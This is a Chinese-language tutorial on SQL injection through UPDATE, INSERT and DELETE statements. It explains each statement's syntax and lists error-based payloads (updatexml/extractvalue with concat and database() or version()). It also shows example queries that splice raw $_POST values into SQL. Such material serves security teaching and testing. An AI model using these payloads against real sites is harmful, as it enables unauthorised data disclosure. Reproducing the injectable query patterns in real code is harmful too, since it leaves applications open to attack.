 # 原创
：  【SQL注入】UPDATE、insert、delete注入

# 【SQL注入】UPDATE、insert、delete注入

**目录**

[一、简介：](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[二、UPDATE注入](#%E4%BA%8C%E3%80%81UPDATE%E6%B3%A8%E5%85%A5)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[2.1、语法：](#2.1%E3%80%81%E8%AF%AD%E6%B3%95%EF%BC%9A)

[2.2、利用：](#2.2%E3%80%81%E5%88%A9%E7%94%A8%EF%BC%9A)

[payload:](#payload%3A)

[示例：](#%E7%A4%BA%E4%BE%8B%EF%BC%9A)

[三、insert注入](#%E4%B8%89%E3%80%81insert%E6%B3%A8%E5%85%A5)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[3.1、语法：](#3.1%E3%80%81%E8%AF%AD%E6%B3%95%EF%BC%9A)

[3.2、利用：](#3.2%E3%80%81%E5%88%A9%E7%94%A8%EF%BC%9A)

[payload:](#payload%3A)

[示例：](#%E7%A4%BA%E4%BE%8B%EF%BC%9A)

[四、delete注入](#%E5%9B%9B%E3%80%81delete%E6%B3%A8%E5%85%A5)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[4.1、语法：](#4.1%E3%80%81%E8%AF%AD%E6%B3%95%EF%BC%9A)

[4.2、利用：](#4.2%E3%80%81%E5%88%A9%E7%94%A8%EF%BC%9A)

[payload:](#payload%3A)

[示例：](#%E7%A4%BA%E4%BE%8B%EF%BC%9A)

---


---


> 
<h2>一、简介：</h2>
与数据库交互的请求都有可能造成SQL注入。常见的注入都是select的查询注入比较多，但是SQL注入在参数没有检查和过滤的时候就会把恶意的数据插入数据库，如：插入数据，更改数据，删除数据等
但是相对于插入，更改，删除权限，普通用户查询权限一定是有的


---


---


## 二、UPDATE注入

> 
<h3>简介：</h3>
1、UPDATE语句用于修改表中的一行或几行数据。它们经常在用户修改已有数据值的功能中，例如， 更新个人信息、修改密码或更改订单数据
2、典型UPDATE语句的运行机制与INSERT语句类似， 只是UPDATE语句中通常包含一个WHERE子句， 告诉数据库更新表中哪些行的数据


> 
<h3>2.1、语法：</h3>
更新某一列
UPDATE table SET column=new_value WHERE column= value
更新若干列
UPDATE table SET column1=new_value1, column2=new_value2 WHEREcolumn= value


> 
<h3>2.2、利用：</h3>
<h4>payload:</h4>
aaaa' or updatexml(1, concat(0x7e, database()),0) or '（字符型）
' or extractvalue(1,concat(0x5e24,(database()))) or '（数字型）
<hr/>
<h4>示例：</h4>
update table set column='' or updatexml(1,concat(0x7e,(database())),0) or '',password='$_POST['password']' where id=$_POST['id']


#### 示例：

---


---


## 三、insert注入

> 
<h3>简介：</h3>
在表中建立一个新的数据行


> 
<h3>3.1、语法：</h3>
插入数据
insert into table(column1, column2, column3) value (value 1, value 2, value 3)


> 
<h3>3.2、利用：</h3>
<h4>payload:</h4>
' or updatexml(1,concat(0x7e,(database())),0) or '（字符型）
' or extractvalue(1,concat(0x5e24,(database()))) or '（数字型）
<hr/>
<h4>示例：</h4>
insert into user(username,password) values('' or updatexml(1,concat(0x7e,(database())),0) or '','$_POST['password']')


#### 示例：

---


---


## 四、delete注入

> 
<h3>简介：</h3>
用于删除一行或几行数据，与UPDATE语句一样． DELETE语句通常使用WHERE子句告诉数据库更新表中哪些行的数据并很可能在这个子句中并入用户提交的数据。破坏正常运行的WHERE子句可能会造成严顶的后果， 我们在UPDATE语句部分提出的警告同样还用于这种攻击


> 
<h3>4.1、语法：</h3>
删除表中指定数据
delete from table where id=$id


> 
<h3>4.2、利用：</h3>
<h4>payload:</h4>
or or updatexml(1,concat(0x7e,(database())),0) or ' '
or extractvalue(1,concat(0x5e24,(database()))) or ' '
'or（有效载荷）or'<br/> 'and（有效载荷）and'<br/> 'or（有效载荷）and'
'or（有效载荷）and'='
'*（有效载荷）*'
'or（有效载荷）and'
" - （有效载荷） - "
<hr/>
<h4>示例：</h4>
delete注入时使用 or 一定要为false,为ture就被执行，没有报错回显了
delete from admin where id =-2 or updatexml(1,concat(0x7e,(version())),0)


#### 示例：
